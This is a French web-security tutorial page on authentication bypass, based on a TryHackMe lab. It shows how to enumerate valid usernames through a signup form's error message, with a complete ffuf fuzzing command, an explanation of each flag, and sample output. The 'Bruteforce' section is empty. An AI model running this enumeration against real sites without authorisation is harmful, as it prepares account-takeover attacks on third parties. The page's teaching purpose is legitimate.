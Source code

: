 ```yaml
---
sidebar: auto
redac: true
date: 2024-06-27
---
```

# Contournement de l'authentification 

Ces failles, connues pour leur criticité, permettent le contournement de l'authentification du client. Cela peut amener à des fuites de données personnelles, et donc leur correction est primordial.

## Énumération du nom d'utilisateur

À moins que l'on ait déjà un nom d'utilisateur auquel on souhaite tenter de se connecter, un exercice simple est de créer une liste des noms d'utilisateur valides.
Pour cela, il suffit de se rendre sur la page d'inscription du site ciblé, et de vérifier si celui-ci indique lorsque l'on entre un nom d'utilisateur déjà existant, si oui, on note les noms d'utilisateur trouvés.

### Utilisation de l'outil ***ffuf***

On peut utiliser l'existence de ce message d'erreur pour produire une liste de noms d'utilisateur valides déjà inscrits sur le système en utilisant l'outil ffuf. L'outil ffuf utilise une liste de noms d'utilisateur couramment utilisés pour vérifier les correspondances.

```bash
┌─[root@dev]─[~/]
└──╼ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://rootdev.fr/signup -mr "Le nom d'utilisateur existe déjà."
```

Dans l'exemple ci-dessus, on retrouve les arguments suivants :
* ***-w*** = emplacement de la wordlist, ici `/usr/share/wordlists/SecLists/Usernames/Names/names.txt`
* ***-X*** = précise la méthode de requête, `GET` par défaut, `POST` dans cet exemple
* ***-d*** = spécifie les données que l'on va envoyer, correspond au formulaire d'inscription :
    * username : FUZZ correspond (pour ffuf) à l'argument où l'on va utiliser le contenu de notre liste
    * email : correspond à l'input de l'adresse mail, rien de sorcier, ici x car on ne le remplit qu'aléatoirement
    * password & cpassword : correspondent aux input du mot de passe et de sa confirmation
* ***-H*** = Ajoute des en-têtes supplémentaires à la demande, ici on utilise `Content-Type` pour que le serveur Web sache que l'on envoie des données de formulaire
* ***-u*** = Indique l'URL ciblé
* ***-mr*** = Le texte exact affiché sur la page lorsque l'erreur apparaît

Après avoir executé la commande, on entre les noms d'utilisateurs trouvés dans un fichier texte.

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://rootdev.fr/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 285ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 125ms]
```

## Bruteforce



::: info Sources
Ce cours s'inspire (et utilise les images) de TryHackMe.com de la chambre "*Introduction to Web Hacking*" :
https://tryhackme.com/module/intro-to-web-hacking
:::
